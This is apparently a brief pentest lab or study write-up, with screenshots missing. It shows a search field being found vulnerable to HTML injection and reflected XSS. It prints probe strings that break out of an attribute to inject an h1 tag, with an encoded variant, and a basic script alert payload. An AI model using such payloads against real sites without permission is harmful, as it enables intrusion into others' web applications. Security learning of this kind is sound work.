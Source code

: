 <figure><img src=".gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

I will try use some tags to test rxss <mark style="color:red;">**`'"><h1>Hacked</h1>`**</mark>

<mark style="color:blue;">**`the best`**</mark> **`'"><h1>Hacked</h1>{7*7}}JyI+PGgxPmhhY2tlZDwvaDE+`**

<figure><img src=".gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

Ok this search Vulnerable HTML injection &&  RXSS

Simple JS payload

```javascript
<script>alert('OSCP+EWAPTXv2')</script>
```

<figure><img src=".gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>
